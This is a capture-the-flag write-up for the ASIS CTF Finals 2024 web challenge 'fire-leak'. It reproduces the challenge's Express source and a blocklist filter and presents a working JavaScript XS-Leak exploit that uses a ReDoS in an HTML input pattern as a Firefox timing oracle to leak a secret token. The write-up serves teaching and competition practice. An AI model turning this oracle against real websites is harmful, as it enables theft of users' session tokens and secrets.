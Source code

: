 # [web] fire-leak - ASIS CTF Finals 2024

This year, I played in the ASIS CTF Finals with `@TheRomanXpl0it`, and we secured 7th place at the end of the CTF. I decided to write this up because I've never seen a similar challenge before. `@simonedimaria` and I worked on this challenge and solved it after about 8 hours.

## Overview
As the name suggests, this is an [XS-Leak](https://xsleaks.dev/) challenge. We're given the source code and there are three endpoints.

`/save-flag`
```js
// For the admin bot
app.get("/save-flag", (req, res) => {
    const token = crypto.randomBytes(6).toString("hex");
    const flag = req.cookies.FLAG;
    tokens.set(token, flag);
    console.log({ token, flag });
    setTimeout(
        () => tokens.delete(token), // expired
        120_000
    );
    res.clearCookie("FLAG").cookie("TOKEN", token).send("Saved");
});
```
Generates a random token and saves the flag. The token is deleted after 120 seconds.

`/get`
```js
// If you steal a token, use it :)
app.get("/get", (req, res) => {
    const token = String(req.query.token);
    res.send(tokens.get(token) ?? "Not found");
});
```
Retrieves the flag given its token.

`/`
```js
app.get("/", (req, res) => {
    const html = String(req.query.html ?? defaultHtml);

    if (html.length > 1024) return res.send("?");
    if (/[^\x20-\x7e\r\n]/i.test(html)) return res.send("??");
    if (/meta|link|src|data|href|svg|:|%|&|\\|\/\//i.test(html)) return res.send("???");

    res
        .type("html")
        .setHeader(
            "Content-Security-Policy",
            "default-src 'none'; base-uri 'none'; frame-ancestors 'none'"
        )
        .send(html.replace("{{TOKEN}}", req.cookies.TOKEN));
});
```
This endpoint lets us render arbitrary HTML. If we put `{{TOKEN}}` inside our HTML, it will be replaced with the `TOKEN` cookie.

Also, a new token is generated every time a URL is reported.

`bot.js`
```js
await context.addCookies([
    {
        name: "FLAG",
        value: FLAG,
        url: APP_URL,
        httpOnly: true,
    },
]);
// ...
const page1 = await context.newPage();
await page1.goto(APP_URL + "/save-flag", { timeout: 3_000 });
await sleep(2_000);
await page1.close();
// ...
const page2 = await context.newPage();
await page2.goto(url, { timeout: 5_000 });
await sleep(60_000);
await page2.close();
```

The goal is:
- Steal the bot token within 60 seconds.
- Use that token to retrieve the flag by making a request to `/get`.

However, we have a few limitations:
- The HTML should be less than 1024 characters.
- We can't use any characters besides `^\x20-\x7e\r\n`.
- We can't use the following words: `meta`, `link`, `src`, `data`, `href`, `svg`.
- We can't use the following characters: `:%&\`.

Furthermore, there's a strict [CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) which prevents us from using other techniques to leak the token.

**Note: The bot uses Firefox!**

## Solution
The first thing that came to our mind was searching for weird behaviors in Firefox, hoping to find something useful. And we did:

![alt text](image.png)

**Note:** If you don't know what a ReDoS is, check out [this article!](https://blog.huli.tw/2023/06/12/en/redos-regular-expression-denial-of-service/).

We used the following regex and input:
```js
let regex = "^" + tobrute + "(([a-f0-9]+.)[a-f0-9])+$";
let input = `{{TOKEN}}${'a'.repeat(count)}!`;
```

So if our token is `deadbeef`, our HTML element would be:
```html
<input value="deadbeefaaaaaaaaaaaaaaaaaaaaaaaaaaaaa!" pattern="^d(([a-f0-9]+.)[a-f0-9])+$" />
```

By doing so, if the first part of the pattern (`^d`) is matched, the regex will cause a ReDoS and we would know that the first character of the token is `d`.

[Here](https://blog.robertelder.org/regular-expression-visualizer/?the_regex=%5Ed((%5Ba-f0-9%5D%2B.)%5Ba-f0-9%5D)%2B%24&the_subject=deadaaaaaa!) you can see why it happens!

Now we need a way to detect the ReDoS.

We noticed that if we try to change the location of the window during the ReDoS (to `about:blank`), Firefox will go to that location only after finishing the validation process.

So, we can detect how much time it takes to let that happen by continuously checking if we can retrieve the value of `window.opener`.

```js
function sleep(time) {
    return new Promise((resolve) => setTimeout(resolve, time));
}
function popup(url) {
    return window.open(url, "palle", "width=200,height=100");
}

async function oracle(tobrute) {
    let final_pattern = "^" + tobrute + "(([a-f0-9]+.)[a-f0-9])+$";

    console.log("PATTERN", final_pattern);
    let count = 30 + tobrute.length - 1;

    let tokstr = "{{TOKEN}}";

    let html = `<input value="{{TOKEN}}${'a'.repeat(count)}!" pattern="${final_pattern}" />`;

    console.log(html);

    var w = popup("http://web:3000/?html=" + encodeURIComponent(html));
    await sleep(200);
    w.location = "about:blank";
    var start = performance.now();
    await new Promise((resolve) => {
        let interval = setInterval(async () => {
            try {
                w.origin;
                clearInterval(interval);
                resolve();
            } catch (e) {
                // Do nothing, just wait for the next interval
            }
        }, 100);
    });

    return performance.now() - start;
}
```

We tried to execute this locally and... it worked!

![alt text](image-1.png)

So it should also work on the remote server, right?
Unfortunately, no. Timing attacks using ReDoS are inherently unstable, as they depend on numerous factors. While we were able to leak the entire token locally in just 30 to 40 seconds, on the remote server, we were only getting garbage.

To address this, we had to do a bit of fine-tuning by re-using the same window without closing it, adjusting the sleep durations, and the length of our input values... and still, we were not able to leak the token but at least we were leaking a part of it.

At some point, we decided to brute-force the last two characters because we wasted more than 3 hours trying to make this exploit stable. And it worked!

![alt text](image-2.png)

We were the only team that managed to solve this challenge.

![alt text](image-3.png)

## Conclusions
After reading the [author's writeup](https://blog.arkark.dev/2024/12/30/asisctf-finals/), we saw that he used a slightly different approach by doing frame counting, and his exploit leaks the token in about 30 seconds!

Anyway, thanks for the great CTF, we had a lot of fun!